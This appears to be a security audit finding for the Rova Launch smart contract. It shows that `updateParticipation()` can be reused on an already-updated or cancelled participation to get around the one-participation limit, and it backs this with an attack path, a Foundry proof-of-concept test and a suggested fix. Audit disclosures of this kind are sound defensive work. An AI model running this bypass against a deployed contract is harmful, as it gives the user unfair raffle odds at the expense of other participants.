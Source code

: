 Handsome Eggshell Terrier

Medium

# Users can exploit `updateParticipation()` to participate multiple times

### Summary

The following [code snippet](https://github.com/sherlock-audit/2025-02-rova/blob/fe68ceb7d90693f9be5c7fb94dde130da8d60d9e/rova-contracts/src/Launch.sol#L243-L249) ensures that a user cannot call `Launch::participate()` multiple times if they have already participated, preventing multiple participations when `finalizesAtParticipation == false`:

```solidity
function participate(ParticipationRequest calldata request, bytes calldata signature)
    external
    nonReentrant
    whenNotPaused
    onlyLaunchGroupStatus(request.launchGroupId, LaunchGroupStatus.ACTIVE)
{
    ... ...
    // If launch group does not finalize at participation, users should perform updates instead
    // This is checked by checking if the user has already requested tokens under the launch group
    EnumerableMap.Bytes32ToUintMap storage userTokens = _userTokensByLaunchGroup[request.launchGroupId];
    (, uint256 userTokenAmount) = userTokens.tryGet(request.userId);
    if (userTokenAmount > 0) {
        if (!settings.finalizesAtParticipation) {
            revert MaxUserParticipationsReached(request.launchGroupId, request.userId);
        }
    }
    ... ...
}
```

However, a user can update the same `launchParticipationId` multiple times, ultimately resulting in multiple participations, even though this should not be possible.

### Root Cause

In `Launch::updateParticipation()`, there is no check to ensure that the function is not called for a `prevLaunchParticipationId` with `currencyAmount = 0`. This allows the function to be called multiple times with the same `prevLaunchParticipationId`. 

The sponsor has shared [this README](https://github.com/dpm-labs/rova-contracts/blob/main/README.md#signing-requests) in the public Discord channel for this contest. It documents the checks performed by the backend on request parameters. As stated, the backend only verifies that the `prevLaunchParticipationId` is valid for the given `launchGroupId` and that it belongs to the user making the request. Since this check does not include the necessary validation, the attack remains possible even if the signer is trusted.

### Internal Pre-conditions

1. A user participates in a launch group that does not finalize at participation.

### External Pre-conditions

None.

### Attack Path

1. Alice participates with `participationId = 5`.
2. Alice calls `Launch::updateParticipation()` to update this participation. The `currencyAmount` of participation ID 5 is set to zero, and a new participation with ID 6 is created.
3. Alice calls `Launch::updateParticipation()` to update participation ID 5 again. The `currencyAmount` of participation ID 5 is set to zero again and the new participation with ID 7 is created. As a result, Alice ends up with two active participations, even though this should not be possible due to a specific check for this case in `Launch::participate()`.

Alternatively:

1. Alice participates with `participationId = 5`.
2. Alice calls `Launch::cancelParticipation()` to cancel this participation. The `currencyAmount` of participation ID 5 is set to zero. Now, Alce should have to call `Launch::participate()` to participate again.
3. Instead, Alice calls `Launch::updateParticipation()` to update participation ID 5. The `currencyAmount` of participation ID 5 is set to zero again and the new participation with ID 6 is created. As a result, Alice ends up with an active participation by updating an already canceled participation.

### Impact

A user can exploit the `Launch::updateParticipation()` function to bypass the intended participation limit and participate in a launch group multiple times even though this is not allowed. Additionally, depending on how the winners of the launch are decided, this increases their chances of being raffled as a winner (possibly even multiple times).

Furthermore, canceled participations can be updated as well.

### PoC

Add the following test in Launch.UpdateParticipation.t.sol:

```solidity
    function test_UpdateParticipation_Twice() public {
        // Prepare update participation request
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(1000);
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user1);
        uint256 updatedCurrencyAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCurrencyAmount);

        // Expect ParticipationUpdated event
        vm.expectEmit();
        emit ParticipationUpdated(
            updateRequest.launchGroupId,
            updateRequest.newLaunchParticipationId,
            testUserId,
            user1,
            updateRequest.tokenAmount,
            address(currency)
        );

        // Update participation
        launch.updateParticipation(updateRequest, updateSignature);

        // Verify update
        ParticipationInfo memory newInfo = launch.getParticipationInfo(updateRequest.newLaunchParticipationId);
        _verifyParticipationInfo(newInfo, updateRequest);
        ParticipationInfo memory oldInfo = launch.getParticipationInfo(updateRequest.prevLaunchParticipationId);
        assertEq(oldInfo.currencyAmount, 0);
        assertEq(oldInfo.tokenAmount, 0);

        // Verify total unique participants by launch group
        assertEq(launch.getNumUniqueParticipantsByLaunchGroup(testLaunchGroupId), 1);

        vm.stopPrank();

        uint256 launchTokenDecimals = launch.tokenDecimals();

        UpdateParticipationRequest memory secondUpdateRequest = UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: "newLaunchParticipationId123",
            userId: testUserId,
            userAddress: user1,
            tokenAmount: 1000 * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
        bytes memory secondUpdateSignature = _signRequest(abi.encode(secondUpdateRequest));

        vm.startPrank(user1);

        // Update participation again
        launch.updateParticipation(secondUpdateRequest, secondUpdateSignature);

        // Verify update
        ParticipationInfo memory newInfoSecond = launch.getParticipationInfo(secondUpdateRequest.newLaunchParticipationId);
        _verifyParticipationInfo(newInfo, updateRequest);
        ParticipationInfo memory oldInfoSecond = launch.getParticipationInfo(secondUpdateRequest.prevLaunchParticipationId);
        assertEq(oldInfoSecond.currencyAmount, 0);
        assertEq(oldInfoSecond.tokenAmount, 0);

        assertEq(newInfoSecond.userId, testUserId);
        assertEq(newInfo.userId, testUserId);

        vm.stopPrank();
    }
```

### Mitigation

Consider adding a check to ensure that the provided `prevLaunchParticipationId` does have a `currencyAmount` that is greater than zero.